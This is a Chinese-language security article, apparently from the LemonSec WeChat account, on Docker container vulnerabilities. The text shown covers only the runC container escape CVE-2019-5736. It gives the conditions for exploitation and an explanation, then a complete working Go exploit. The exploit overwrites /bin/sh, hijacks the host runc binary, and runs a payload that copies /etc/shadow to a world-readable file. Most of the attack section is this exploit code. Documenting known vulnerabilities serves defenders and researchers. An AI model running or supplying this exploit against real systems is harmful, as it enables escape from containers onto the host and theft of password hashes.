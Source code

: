 #  干货 | 常见的Docker容器漏洞总结

小九  [ LemonSec ](javascript:void\(0\);)

**LemonSec** ![]()

微信号 lemon-sec

功能介绍 每日发布安全资讯～

____

__

收录于话题

## **Docker-RunC漏洞致容器逃逸(CVE-2019-5736)**

### 利用条件

  * Docker Version < 18.09.2

  * RunC Version <1.0-rc6

  * 攻击者具有容器文件上传权限 & 管理员使用exec访问容器 || 攻击者具有启动容器权限

### 漏洞原理

攻击者可以将容器中的目标文件替换成指向runC的自己的文件来欺骗runC执行自己。比如目标文件是`/bin/bash`，将它替换成指定解释器路径为`#!/proc/self/exe`的可执行脚本，在容器中执行`/bin/bash`时将执行`/proc/self/exe`，它指向host上的runC文件。然后攻击者可以继续写入`/proc/self/exe`试图覆盖host上的runC文件。但是一般来说不会成功，因为内核不允许在执行runC时覆盖它。为了解决这个问题，攻击者可以使用O_PATH标志打开`/proc/self/exe`的文件描述符，然后通过`/proc/self/fd/<nr>`使用O_WRONLY标志重新打开文件，并尝试在一个循环中从一个单独的进程写入该文件。当runC退出时覆盖会成功，在此之后，runC可以用来攻击其它容器或host。

### 漏洞POC

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    // Implementation of CVE-2019-5736// Created with help from @singe, @_cablethief, and @feexd.// This commit also helped a ton to understand the vuln// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9dimport (  "fmt"  "io/ioutil"  "os"  "strconv"  "strings")  
    // This is the line of shell commands that will execute on the hostvar payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"  
    func main() {  // First we overwrite /bin/sh with the /proc/self/exe interpreter path  fd, err := os.Create("/bin/sh")  if err != nil {    fmt.Println(err)    return  }  fmt.Fprintln(fd, "#!/proc/self/exe")  err = fd.Close()  if err != nil {    fmt.Println(err)    return  }  fmt.Println("[+] Overwritten /bin/sh successfully")  
      // Loop through all processes to find one whose cmdline includes runcinit  // This will be the process created by runc  var found int  for found == 0 {    pids, err := ioutil.ReadDir("/proc")    if err != nil {      fmt.Println(err)      return    }    for _, f := range pids {      fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")      fstring := string(fbytes)      if strings.Contains(fstring, "runc") {        fmt.Println("[+] Found the PID:", f.Name())        found, err = strconv.Atoi(f.Name())        if err != nil {          fmt.Println(err)          return        }      }    }  }  
      // We will use the pid to get a file handle for runc on the host.  var handleFd = -1  for handleFd == -1 {    // Note, you do not need to use the O_PATH flag for the exploit to work.    handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)    if int(handle.Fd()) > 0 {      handleFd = int(handle.Fd())    }  }  fmt.Println("[+] Successfully got the file handle")  
      // Now that we have the file handle, lets write to the runc binary and overwrite it  // It will maintain it's executable flag  for {    writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)    if int(writeHandle.Fd()) > 0 {      fmt.Println("[+] Successfully got write handle", writeHandle)      writeHandle.Write([]byte(payload))      return    }  }}

